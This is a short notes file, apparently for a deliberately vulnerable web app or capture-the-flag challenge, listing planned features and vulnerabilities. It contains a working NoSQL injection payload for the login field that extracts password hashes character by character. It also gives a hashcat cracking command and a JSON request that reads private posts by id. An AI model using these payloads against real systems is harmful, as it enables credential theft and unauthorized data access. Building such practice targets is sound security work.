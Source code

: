 # Idees
- User0 -> contrasenya debil, pots extreure el hash utilitzant la vuln0 i crackejarlo local
- Afegir un password lock
- Cerca de posts

# Vulns
## Vuln0
Login username field exfil: Can be used to extract the hashes of the DB
- payload: `Mototruco' && this.password[0] == '$' || this.username == 'a`
- a is the user that I know
- Mototruco is the one I am exfiltrating
- Natural order must be before the user you are trying to exfil
- hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt  --show

## Vuln1
Add replies to your newly created post -> this can also be used to get private posts if you know their id
```
{
    "content":"Ets tontissim amego",
    "parent":"6731f1222bd998c985ea07b0",
    "replies": ["673200d27fc1faf7f95f5701"]
}
```

## Vuln2
